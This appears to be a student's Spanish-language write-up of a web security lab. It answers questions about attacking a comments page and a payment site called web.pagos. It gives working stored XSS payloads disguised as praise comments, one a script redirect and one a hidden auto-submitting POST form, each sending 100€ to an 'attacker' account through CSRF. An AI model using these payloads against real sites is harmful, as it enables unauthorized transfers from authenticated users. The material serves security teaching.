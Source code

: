 Si le damos te lleva a un link que obviamente no hace nada pero en la url se ve atacante recibe 100€


#### **[B] Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (`show\_comments.php`).**
```bash
<p>¡Gran jugador! <script>window.location.href = 'http://web.pagos/donate.php?amount=100&receiver=attacker';</script></p>
```
#### **[C] Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.**
 
Los usuarios que visualicen el mensaje *¡Gran jugador!* o pinchen en el botón *Profile* deben estar registrados y autenticados en **web.pagos** y tener suficiente saldo en su cuenta para cubrir los 100€.

#### **[D] Si web.pagos modifica la página `donate.php` para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” y “receiver” por POST**.

Cambiar los parámetros de GET a POST no blindaría completamente la página contra ataques. 

Aunque POST es más seguro que GET para enviar datos sensibles, un atacante aún podría explotar vulnerabilidades CSRF o combinar CSRF con XSS para forzar una donación no autorizada.

Un atacante podría inyectar este código XSS en el campo “body” de show_comments.php: 

```bash
<p>¡Gran jugador! 
<script>
  // Crear un formulario oculto
  var form = document.createElement('form');
  form.method = 'POST';
  form.action = 'http://web.pagos/donate.php';

  // Añadir parámetros
  var params = {
    amount: 100,
    receiver: 'attacker'
  };

  for (var key in params) {
    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = key;
    input.value = params[key];
    form.appendChild(input);
  }

  // Enviar el formulario automáticamente
  document.body.appendChild(form);
  form.submit();
</script>
</p>
```
